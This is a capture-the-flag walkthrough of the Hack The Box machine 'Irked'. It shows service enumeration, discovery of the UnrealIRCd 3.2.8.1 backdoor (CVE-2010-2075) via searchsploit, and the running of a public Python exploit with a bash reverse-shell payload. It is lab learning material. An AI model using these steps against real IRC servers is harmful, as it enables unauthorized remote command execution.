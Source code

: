 - `/manual/en/index.html` : Apache HTTP Server Version 2.4 Documentation
I did some more research about port 80 but after a while I have a bad feeling that it is just a rabbit whole. then I move on to another service

## irc
after googling a bit, I found out that we can us HexChat to connect to IRC server. here is how to by [offsec](https://www.offensive-security.com/offsec-irc-guide/)


so download it and then let add newnetwork -> irked.htb/6667. and try to connect to it.
```
* Looking up irked.htb
* Connecting to irked.htb (10.10.10.117:6667)
* Connection failed (Connection refused)
```
oh yea wrong port... `irked.htb/6697`
```
* Your host is irked.htb, running version Unreal3.2.8.1
* This server was created Mon May 14 2018 at 13:12:50 EDT
```
okey we got our version.. let search on `searchsploit`
```
bibo318@parrot:~/HTB$ searchsploit UnrealIRCd
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)         | linux/remote/16922.rb
```
oh there is a metasloit module, but we will try to advoid using that. (let see how it go, lets try harder!!)


so I google a bit more, I found that this vuln is **CVE-2010-2075** and looking for python exploit on github and I found [this](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py), created by Ranger11Danger. let get it and see how it works


dot forget to change local ip + port in the script.
```console
bibo318@parrot:/opt$ sudo python3 unrealIRC.py -h
usage: unrealIRC.py [-h] -payload {python,netcat,bash} ip port

positional arguments:
  ip                    target ip
  port                  target port

optional arguments:
  -h, --help            show this help message and exit
  -payload {python,netcat,bash}
                        set payload type
bibo318@parrot:/opt$ sudo python3 unrealIRC.py irked.htb 6697 -payload bash
Exploit sent successfully!
```
and it works, he deserve some star on his github!!
